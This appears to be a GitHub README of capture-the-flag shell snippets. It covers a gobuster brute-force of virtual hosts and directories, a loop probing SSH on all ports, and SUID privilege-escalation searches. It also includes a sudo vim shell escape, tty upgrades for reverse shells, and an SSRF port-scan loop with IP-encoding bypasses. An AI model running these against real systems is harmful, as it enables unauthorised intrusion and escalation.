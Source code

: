 # Some useful shell scripts
I upload some useful shell scipts here now and then.

### **Clone the repository**
```bash
git clone https://github.com/century300/useful-shell-scripts ~/Downloads/useful-shell-scripts && cd ~/Downloads/useful-shell-scripts && chmod +x *
```
<br/>

### **read_etc-passwd_file.sh**
- This script read the /etc/passwd file and output each user shell and directory
```bash
./read_etc-passwd_file.sh
```
- Or you can run the code in terminal
```bash
while IFS=: read -r f1 f2 f3 f4 f5 f6 f7
do
 echo "User $f1 use $f7 shell and stores files in $f6 directory."
done < /etc/passwd
```
<br/>

### **Bash for loop**
- for loop syntax
```bash
for OUTPUT in $(Linux-Or-Unix-Command-Here)
do
	command1 on $OUTPUT
	command2 on $OUTPUT
	commandN
done
```
- Usage 1: gobuster brute-force using SecLists subdomains wordlist to discover virtual hosts names, then use **_for loop_** and dirbuster wordlist to find the _flag_ in there
```bash
gobuster vhost -u http://TargetWebsite.com -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t30

for vhost in subDomain1 subDomain2 subDomain3; do gobuster dir -u http://${vhost}.TargetWebsite.com -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,txt -t30 -o Output.txt; done
```
- Usage 2: **ssh_spam.sh**: check to see which one is the useful/real ssh service in CTF
```bash
# You can run the ssh_spam.sh directly
./ssh_spam.sh

# Or you can copy the script to your terminal to run directly
for port in {1..65535}
do
	printf "$port"
	ssh -o StrictHostKeyChecking=no -p $port <target_IP>
done
```
<br/>

### **Privilege escalation by using SUID**
- **-u=s** denotes files owned by the root user, **2>/dev/null** means to redirect all errors to /dev/null (aka ignoring all errors)
```bash
# Find SUID executables
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null

# Find SUID
find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
<br/>

### [**Reverse Shell Tricks**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
```bash
# Get a tty shell
python -c 'import pty; pty.spawn("/bin/sh")'

# Upgrade shell to a tty
SHELL=/bin/bash script -q /dev/null

# Set terminal
export TERM=xterm-256color

#Switch to the background with CTRL+Z

# If sudo -l in user has access to /usr/bin/vim
sudo vim -c ":!/bin/sh"
```
<br/>

### SSRF attack to see which port is open
- We can use bash script instead of Burp Suite Intruder attack
```bash
# Run the script directly
./ssrf-open-ports.sh

# Run the source code directly in the terminal. 127.0.0.1 can be replaced with its Decimal (2130706433) or Hexadecimal (0x7f000001) counterparts to bypass restrictions.
for x in {1..65535};
    do cmd=$(curl -so /dev/null http://10.10.xx.xx:8080/attack?url=http://127.0.0.1:${x} \
        -w %{size_download});
    if [ $cmd != 1040 ]; then
        echo "Open port: $x"
    fi
done
```
